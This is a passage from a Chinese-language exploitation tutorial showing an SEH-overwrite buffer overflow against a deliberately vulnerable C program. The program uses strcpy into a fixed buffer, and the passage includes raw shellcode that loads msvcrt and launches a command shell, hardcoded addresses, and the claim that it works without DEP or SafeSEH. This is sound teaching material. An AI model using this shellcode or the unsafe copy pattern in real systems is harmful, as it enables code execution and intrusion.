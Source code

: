 也可以用第一篇文章提到的工具,搜索kernel,或者直接用immunity debugger搜索

![](http://img0.tuicool.com/Nz6n6zB.png!web)

0x7c921931 小端机缘故,倒叙 `\x31\x19\x92\x7c`

看最终代码,在保证没有DEP和safeSeh、safeop的情况下可顺利运行.

```
#!c
#include "stdio.h"
#include "windows.h"
void GetInput(char* str, char* out) {

    char buffer[500];
    try
    {
        strcpy(buffer,str);
        strcpy(out,buffer);
        printf("Input received : %s\n",buffer);
    }
    catch (char * strErr)
    {
        printf("No valid input received ! \n");
        printf("Exception : %s\n",strErr);
    }
}
int main() {
    LoadLibrary("C:\\NppFTP.dll");
    char buf2[10];
    char shellcode[]="\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"
"\x91\x91\x91\x91"  //nseh
"\x6A\x6A\x6A\x6A"  //seh handle

"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x77\x1d\x80\x7c"     
"\x52\x8D\x45\xF4\x50"
"\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4"
"\x50\xB8"
"\xc7\x93\xbf\x77"     
"\xFF\xD0";   //shellcode

    GetInput(shellcode,buf2);
    return 0;
} 
```
